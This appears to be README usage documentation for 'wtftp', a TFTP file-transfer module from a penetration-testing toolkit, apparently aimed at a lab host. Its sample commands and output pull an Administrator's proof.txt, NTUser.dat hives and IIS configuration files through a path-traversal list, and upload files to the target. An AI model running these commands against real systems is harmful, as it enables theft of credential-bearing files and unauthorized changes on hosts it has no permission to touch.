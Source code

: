 #### Use case

    This module is for transferring files via tftp

#### Sample module wtftp
    wtftp -rh 10.11.1.111 -df '\Users\Administrator\Desktop\proof.txt' -ddf 'proof.txt' > check.txt
        ('\\Users\\Administrator\\Desktop\\proof.txt', 'proof.txt')

    wtftp -rh 10.11.1.111 -if 'traversal.txt'
        ('/Users/Administrator/NTUser.dat\n', '_Users_Administrator_NTUser.dat\n')
        ('/Documents and Settings/Administrator/NTUser.dat\n', '_Documents and Settings_Administrator_NTUser.dat\n')
        ...
        ('/Windows/System32/inetsrv/config/schema/ASPNET_schema.xml\n', '_Windows_System32_inetsrv_config_schema_ASPNET_schema.xml\n')
        ('/Windows/System32/inetsrv/config/applicationHost.config', '_Windows_System32_inetsrv_config_applicationHost.config')

    wtftp -rh 10.11.1.111 -uf 'test.txt' -udf '\Users\Administrator\Desktop\test.txt' -u
        ('test.txt', '\\Users\\Administrator\\Desktop\\test.txt')

    wtftp -rh 10.11.1.111 -if 'traversal.txt' -u > check.txt
        ('NTUser.dat\n', 'NTUser.dat\n')
        ('NTUser.dat\n', 'NTUser.dat\n')
        ...
        ('ASPNET_schema.xml\n', 'ASPNET_schema.xml\n')
        ('applicationHost.config', 'applicationHost.config')

##### _All modules have helper flags -h and --help for more assistance._